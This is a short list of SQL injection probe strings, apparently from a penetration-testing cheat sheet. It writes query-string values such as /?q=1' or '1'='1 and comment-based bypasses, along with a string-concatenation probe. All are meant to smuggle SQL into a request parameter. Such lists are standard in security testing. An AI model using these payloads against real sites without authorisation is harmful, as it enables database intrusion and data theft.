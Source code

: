 /?q=1
/?q=1'
/?q=1"
/?q=[1]
/?q[]=1
/?q=1`
/?q=1\
/?q=1/*'*/
/?q=1/*!1111'*/
/?q=1'||'asd'||' <== concat string
/?q=1' or '1'='1
/?q=1 or 1=1
/?q='or''='
